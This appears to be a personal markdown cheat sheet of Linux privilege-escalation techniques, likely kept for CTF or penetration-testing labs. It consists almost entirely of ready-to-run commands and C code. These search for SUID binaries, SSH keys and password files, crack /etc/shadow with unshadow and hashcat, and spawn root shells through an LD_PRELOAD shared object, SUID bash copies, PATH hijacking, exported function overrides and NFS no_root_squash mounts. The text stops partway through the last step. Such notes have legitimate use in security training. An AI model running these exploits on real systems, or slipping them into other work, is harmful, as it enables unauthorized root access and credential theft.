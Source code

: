 # Linux PE checks
----------

finding SUID

```bash
find / -perm -u=s -type f 2>/dev/null

find / -type f -perm -04000 -ls 2>/dev/null
```

capabilities:

```bash
getcap -r / 2>/dev/null
````


cron:

```bash
cat /etc/crontab
```

```bash
arp -a - ip neigh

netstat -ano


locate password | more

```


```bash
find / -name id_rsa 2>/dev/null

find / -name authorized_keys 2>/dev/null

find . -type f -exec grep -i -I "Password" {} /dev/null \;
```

/etc/shadow

```bash
unshadow passwd shadow
```

```cmd
hashcat -m 1800
```



ssh keys

id_rsa

```bash
chmod 600

ssh -i id_rsa root@10.10.10.10

```


LD_PRELOAD

we can pre load a custom binary before running a valid binary which can be run as root 

```bash
sudo -l
```

write a C code and compile it as a shared object:

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
	
	setgid(0);
	setuid(0);
	system("/bin/bash");
	
}

```

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles

sudo LD_PRELOAD=/home/cibbin/shell.so apache2
```


SUID

```


shared object injection:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

if some binary is looking supicious, check what its doing with strace

```
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

overwrite files with write access 

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

```bash
gcc -shared -fPIC -o /home/user/location_of_missing_binary
```


binary symlinks:



via environment variables:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

run strings on the suspicious binary 

print $PATH

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

```bash
gcc /tmp/service.c -o /tmp/service 
```

```bash
export PATH=/tmp:$PATH
```

/tmp is added to environmental variable and now it will be called first while looking for the binary service

creating a malicious function:

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p;}

export -f /usr/sbin/service

```

cron jobs:
```bash
cat /etc/crontab
```

nfs root squashing:

```
cat /etc/exports
```

if the result says no_root_squash -> the /tmp folder can be mounted

```
showmount -e IP

mount -o rw,vers=2 IP:/tmp /tmp/mount
```

now make a malicious C file, compile it and make it executable